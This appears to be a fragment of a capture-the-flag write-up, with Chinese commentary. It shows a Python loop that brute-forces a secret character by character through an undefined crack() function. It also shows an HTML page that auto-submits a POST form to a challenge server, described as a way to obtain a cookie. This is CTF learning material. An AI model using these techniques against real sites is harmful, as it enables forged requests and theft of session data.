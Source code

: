```python

if __name__ == "__main__":
    content = ""
    try:
        while True:
            flag = True
            for e in tqdm(
                    " %ABCDEF0123456789abcdefghijklmnopqrstuvwxyzGHIJKLMNOPQRSTUVWXYZ!\"#$&'()*+,-./:;<=>?@[\\]^_`{|}~"
            ):
                if flag:
                    while True:
                        try:
                            if crack(content + e):
                                content = content + e
                                print(content)
                                flag = False
                            break
                        except:
                            pass
    except KeyboardInterrupt:
        print(content)
```

以下是post请求获得`cookie`的办法

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>

<body>
    </script>
    <form id="autosubmit" action="http://202.38.93.111:10051/result" method="POST">
        <input name="comment" value="12" />
    </form>
    <script>
        window.onload = function () {
            document.getElementById("autosubmit").submit();
        }
    </script>
</body>

</html>
EOF
<!-- <form id="autosubmit" action="http://202.38.93.111:10051/result" method="POST"><input name="comment" value="foobar" />
</form>
<script>document.getElementById("autosubmit").submit();</script> -->
```
